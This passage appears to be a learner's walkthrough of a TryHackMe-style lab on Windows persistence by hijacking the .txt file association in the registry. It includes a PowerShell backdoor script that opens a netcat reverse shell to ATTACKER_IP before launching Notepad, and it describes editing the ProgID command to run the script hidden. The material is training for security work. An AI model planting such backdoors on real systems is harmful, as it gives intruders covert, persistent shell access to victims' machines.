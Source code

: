 ## Hijacking File Associations

In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under`HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the`.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:

![File extensions in registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/3ae1b8356b38a349090e836026d6d480.png) 

We can then search for a subkey for the corresponding ProgID (also under`HKLM\Software\Classes\`), in this case,`txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under`shell\open\command` where the default command to be run for files with that extension is specified:

![ProgID in registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c3565cf93de4990f41f41b25aed80571.png) 

In this case, when you try to open a .txt file, the system will execute`%SystemRoot%\system32\NOTEPAD.EXE %1`, where`%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to`C:\Windows\backdoor2.ps1`:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass`$args[0]` to notepad, as it will contain the name of the file to be opened, as given through`%1`.

Now let's change the registry key to run our backdoor script in a hidden window:

![backdoored ProgID](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f7ed25a701cf20ea85cf333b20708ffe.png) 

Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Once you have backdoored the .txt file handler and spawned a reverse shell, run`C:\flags\flag6.exe` to get a flag!


Once we follow all steps and open a `.txt` file, we will receive a shell:

![Pasted image 20250515163552.png](../../../IMAGES/Pasted%20image%2020250515163552.png)
